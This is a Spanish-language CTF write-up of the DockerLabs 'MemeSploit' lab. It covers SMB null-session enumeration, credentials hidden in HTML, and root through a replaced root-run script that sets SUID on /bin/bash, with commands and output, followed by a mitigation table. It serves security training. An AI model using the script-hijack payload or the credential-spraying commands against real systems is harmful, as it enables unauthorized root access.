

# MemeSploit — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** mid | **Target IP:** 172.17.0.2

## Descripcion

Laboratorio centrado en enumeración SMB, extracción de credenciales ocultas en una página web y escalada de privilegios abusando de permisos de grupo sobre un directorio cuyo contenido se ejecuta automáticamente como root.

## Attack chain

**Nmap → Enumeración SMB (sesión nula) → Credenciales ocultas en HTML → Acceso SMB → ZIP protegido → Credenciales SSH → Abuso de grupo `security` sobre /etc/login_monitor → SUID /bin/bash → Root**

## 1. Analisis y escaneo del objetivo

Se realiza un escaneo completo de puertos con `nmap`:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/memesploit]
└─$ nmap -sV -sC -p- 172.17.0.2
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-23 19:39 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http         Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Hacker Landing Page
139/tcp open  netbios-ssn  Samba smbd 4
445/tcp open  netbios-ssn  Samba smbd 4
MAC Address: 5A:F9:C9:CE:7B:62 (Unknown)
```

Puntos destacados del escaneo:

- Puerto 22 (SSH): OpenSSH 9.6p1 sobre Ubuntu.
- Puerto 80 (HTTP): Apache 2.4.58, página titulada "Hacker Landing Page".
- Puertos 139/445 (SMB): Samba 4, con `smb2-security-mode` indicando firma habilitada pero no obligatoria.


## 2. Enumeración SMB

Se listan los shares disponibles con sesión nula:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/memesploit]
└─$ smbclient -L //172.17.0.2/ -N

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        share_memehydra Disk      
        IPC$            IPC       IPC Service (99042d7a5b9a server (Samba, Ubuntu))
```

Se profundiza la enumeración con `enum4linux -a`, que revela —vía RID cycling— dos usuarios Unix reales del sistema:

```
S-1-22-1-1001 Unix User\memesploit (Local User)
S-1-22-1-1002 Unix User\memehydra (Local User)
```

Se confirma con `nxc` que el usuario `memesploit` autentica como **Guest** con contraseña vacía, pero no tiene permisos sobre ningún share:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/memesploit]
└─$ nxc smb 172.17.0.2 -u memesploit -p ''
SMB  172.17.0.2  445  99042D7A5B9A  [+] 99042D7A5B9A\memesploit: (Guest)
```

El usuario `memehydra` requiere contraseña válida (rechaza vacía). La política de contraseñas (obtenida vía `enum4linux`) no exige complejidad, con longitud mínima de 5 caracteres.

## 3. Credenciales ocultas en la web

Ingresando al puerto 80 encontrmoas la siguiente pagina:



Revisamos el código fuente de la página principal (`curl 172.17.0.2`), se encuentran tres fragmentos de texto ocultos mediante `color: transparent` en el CSS — invisibles en el navegador, visibles solo en el código fuente:

```html
<p>...el <span style="color: transparent;">fuerzabrutasiempre</span> reigns...</p>
<p>Are you ready to embrace the challenge of <span style="color: transparent;">memesploit_ctf</span>?...</p>
<p>...<span style="color: transparent;">memehydra</span> lies dormant...</p>
```

Se prueban estas palabras como contraseña del usuario `memehydra` vía SMB:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/memesploit]
└─$ nxc smb 172.17.0.2 -u memehydra -p fuerzabrutasiempre memesploit_ctf memehydra
SMB  172.17.0.2  445  99042D7A5B9A  [+] 99042D7A5B9A\memehydra:fuerzabrutasiempre
```

**Credenciales SMB confirmadas:** `memehydra:fuerzabrutasiempre`

## 4. Acceso inicial — Explotación

Con las credenciales obtenidas se accede al share `share_memehydra`:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/memesploit]
└─$ smbclient //172.17.0.2/share_memehydra -U memehydra%'fuerzabrutasiempre'
Try "help" to get a list of possible commands.
smb: \> ls
  secret.zip                          N      224  Sat Aug 31 12:15:06 2024

smb: \> get secret.zip
getting file \secret.zip of size 224 as secret.zip (72.9 KiloBytes/sec)
```

El archivo `secret.zip` está protegido con contraseña:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/memesploit]
└─$ unzip secret.zip
Archive:  secret.zip
[secret.zip] secret.txt password: 
  inflating: secret.txt
```

Se descomprime usando una de las palabras extraídas del HTML, revelando nuevas credenciales:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/memesploit]
└─$ cat secret.txt
memesploit:metasploitelmejor
```

Se accede por SSH con el usuario `memesploit`:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/memesploit]
└─$ ssh memesploit@172.17.0.2
memesploit@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 7.2.15+kali-amd64 x86_64)
memesploit@99042d7a5b9a:~$
```

**Flag de usuario:**

```bash
memesploit@99042d7a5b9a:~$ cat user.txt
58a071849802bb0d1a782f928d5a4121
```

## 5. Escalada de privilegios

### 5.1 Enumeración de privilegios sudo

```bash
memesploit@99042d7a5b9a:~$ sudo -l
User memesploit may run the following commands on 99042d7a5b9a:
    (ALL : ALL) NOPASSWD: /usr/sbin/service login_monitor restart
```

### 5.2 Análisis del servicio `login_monitor`

Revisando los procesos en ejecución:

```bash
memesploit@99042d7a5b9a:~$ ps aux
root     107  0.0  0.0   4332  3576 ?  S  Nov23  0:00 /bin/bash /root/login_monitor
root     110  0.1  0.0   4332  2456 ?  S  Nov23  0:06 /bin/bash /root/login_monitor
tcpdump  109  0.0  0.0  17808 8932  ?  S  Nov23  0:00 tcpdump -i eth0 port 22 -l
```

El binario `/root/login_monitor` corre como **root**, junto a un `tcpdump` monitoreando tráfico del puerto 22. El script de init (`/etc/init.d/login_monitor`) confirma que solo lanza ese binario:

```bash
SCRIPT="/root/login_monitor"
nohup $SCRIPT > /var/log/login_monitor.log 2>&1 &
```

El binario en sí no es accesible (`/root` sin permisos de lectura para `memesploit`). El log de actividad, en cambio, sí es legible:

```bash
memesploit@99042d7a5b9a:~$ cat /var/log/login_monitor.log
Capturando: ... IP 172.17.0.1 > 99042d7a5b9a.ssh: Flags [S] ...
Intento de conexión detectado. Total: 3
Detectado un posible ataque de fuerza bruta en el puerto 22. Ejecutando /etc/login_monitor/actionban.sh.
Simulación de bloqueo de IP: 120.138.171.208
```

Se confirma el disparador: al detectar **3 intentos de conexión** al puerto 22 en una ventana corta, el proceso ejecuta automáticamente `/etc/login_monitor/actionban.sh` como root.

### 5.3 Identificación del vector de escalada

```bash
memesploit@99042d7a5b9a:~$ ls -la /etc/login_monitor/
drwxrwx--- 2 root security 4096 Aug 31  2024 .
-rwxr-xr-x 1 root root      620 Aug 31  2024 actionban.sh
```

```bash
memesploit@99042d7a5b9a:~$ id
uid=1001(memesploit) gid=1001(memesploit) groups=1001(memesploit),100(users),1003(security)
```

El directorio `/etc/login_monitor` pertenece al grupo `security`, del cual `memesploit` es miembro. El permiso de escritura de grupo (`rwxrwx---`) sobre el **directorio** permite crear, borrar y sobrescribir archivos dentro de él, independientemente de los permisos individuales de cada archivo — confirmado al poder crear y eliminar un archivo de prueba (`touch`/`rm`). Esto convierte a `actionban.sh` —ejecutado como root ante el disparador de fuerza bruta— en un vector de escalada de privilegios.

Se inspeccionan además el resto de los archivos del directorio, por si ofrecían una vía alternativa:

```bash
memesploit@99042d7a5b9a:~$ ls -la /etc/login_monitor/
total 36
drwxrwx--- 2 root security 4096 Aug 31  2024 .
-rwxr-xr-x 1 root root      620 Aug 31  2024 actionban.sh
-rwxr-xr-x 1 root root      472 Aug 31  2024 activity.sh
-rw-r--r-- 1 root root      200 Aug 31  2024 loggin.conf
-rw-r--r-- 1 root root      224 Aug 31  2024 network.conf
-rwxr-xr-x 1 root root      501 Aug 31  2024 network.sh
-rw-r--r-- 1 root root      209 Aug 31  2024 security.conf
-rwxr-xr-x 1 root root      488 Aug 31  2024 security.sh
```

```bash
memesploit@99042d7a5b9a:~$ cat /etc/login_monitor/activity.sh
#!/bin/bash
CONFIG_FILE="/etc/actionban/logging.conf"
if [ ! -f "$CONFIG_FILE" ]; then
    echo "Archivo de configuración de logs no encontrado: $CONFIG_FILE"
    exit 1
fi
source "$CONFIG_FILE"
...
```

`activity.sh`, `network.sh` y `security.sh` referencian una ruta de configuración distinta (`/etc/actionban/`) a la real (`/etc/login_monitor/`), por lo que normalmente fallan con `exit 1` antes de llegar al `source`. Esto en principio abre una vía de **path hijacking**: si se pudiera crear `/etc/actionban/` con un archivo de configuración propio, el `source` ejecutaría cualquier comando inyectado como si fuera parte del script (ejecutado como root). Se descartó esta vía al comprobar que `/etc/` no es escribible para el usuario actual:

```bash
memesploit@99042d7a5b9a:~$ mkdir /etc/actionban
mkdir: cannot create directory ‘/etc/actionban’: Permission denied
```

Se optó entonces por la vía confirmada: `actionban.sh`, que sí se ejecuta correctamente (su configuración está hardcodeada, sin `source` externo) y reside en un directorio escribible por grupo.

### 5.4 Explotación

Se sustituye el script original por uno que otorga el bit SUID a `/bin/bash`:

```bash
memesploit@99042d7a5b9a:~$ cp /etc/login_monitor/actionban.sh /tmp/actionban.sh.bak
memesploit@99042d7a5b9a:~$ rm /etc/login_monitor/actionban.sh
memesploit@99042d7a5b9a:~$ cat > /etc/login_monitor/actionban.sh << 'EOF'
#!/bin/bash
chmod +s /bin/bash
EOF
memesploit@99042d7a5b9a:~$ chmod +x /etc/login_monitor/actionban.sh
```

Para disparar la ejecución como root se generan 3 nuevos intentos de conexión al puerto 22 **desde la máquina atacante** (es imprescindible que el tráfico pase por la interfaz `eth0`, monitoreada por `tcpdump`; conexiones generadas desde dentro de la propia sesión SSH ya establecida no activan la detección):

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/memesploit]
└─$ nxc ssh 172.17.0.2 -u memesploit -p fuerzabrutasiempre memesploit_ctf memehydra
```

Verificación del resultado:

```bash
memesploit@99042d7a5b9a:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

El bit SUID queda establecido correctamente. Se obtiene una shell con privilegios de root:

```bash
memesploit@99042d7a5b9a:~$ /bin/bash -p
bash-5.2# id
uid=1001(memesploit) gid=1001(memesploit) euid=0(root) egid=0(root) groups=0(root),100(users),1001(memesploit),1003(security)
```

 **Acceso root obtenido.**

# Conclusión

A partir del escaneo inicial con **Nmap**, se identificaron los servicios SSH, HTTP y SMB. Mediante **enum4linux** y una sesión nula se descubrieron usuarios y recursos compartidos. Posteriormente, al analizar el código fuente HTML, se encontraron credenciales ocultas mediante CSS, que permitieron acceder a SMB y obtener un archivo ZIP con nuevas credenciales SSH para ingresar como `memesploit`.

Una vez dentro del sistema, se identificó que el grupo `security` tenía permisos de escritura sobre `/etc/login_monitor`, directorio que contenía un script ejecutado como root por el servicio `login_monitor`. Aprovechando esta configuración, se reemplazó `actionban.sh` para asignar el bit **SUID** a `/bin/bash`, obteniendo finalmente acceso como `root`.


| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **Sesión nula en SMB** | Permite enumerar usuarios y recursos compartidos sin autenticación. | Deshabilitar el acceso anónimo y restringir los permisos de enumeración en SMB. |
| **Credenciales ocultas en el código fuente HTML** | Expone información sensible que puede utilizarse para acceder a servicios internos. | Nunca almacenar contraseñas u otros datos sensibles en el código fuente de aplicaciones web. |
| **Credenciales reutilizadas o expuestas en archivos ZIP** | Permite obtener credenciales SSH a partir de información recuperada de un recurso compartido. | Evitar almacenar credenciales en archivos accesibles mediante servicios de red y utilizar contraseñas únicas y robustas. |
| **Directorio escribible por un grupo con acceso a scripts privilegiados** | Permite reemplazar archivos que posteriormente pueden ejecutarse con privilegios de root. | Restringir los permisos de escritura de directorios utilizados por servicios privilegiados y revisar la pertenencia a grupos. |
| **Ejecución privilegiada de `actionban.sh`** | Permite ejecutar comandos arbitrarios como root al modificar un script que ejecuta el servicio `login_monitor`. | Proteger los scripts ejecutados por procesos privilegiados y validar sus permisos, propietarios y rutas. |
| **Abuso del bit SUID** | Permite obtener una shell con privilegios elevados mediante `/bin/bash -p`. | Evitar asignar permisos SUID a binarios innecesarios y auditar periódicamente estos archivos. |

## Recomendaciones generales

- Deshabilitar las sesiones anónimas en SMB y restringir la enumeración de usuarios y recursos compartidos.
- Nunca exponer credenciales o información sensible en el código fuente de aplicaciones web.
- Utilizar contraseñas únicas y robustas, evitando su reutilización entre servicios.
- Revisar los permisos de directorios y archivos utilizados por servicios ejecutados con privilegios elevados.
- Evitar que usuarios sin privilegios puedan modificar scripts ejecutados por procesos de root.
- Auditar periódicamente los binarios con permisos SUID/SGID en el sistema.
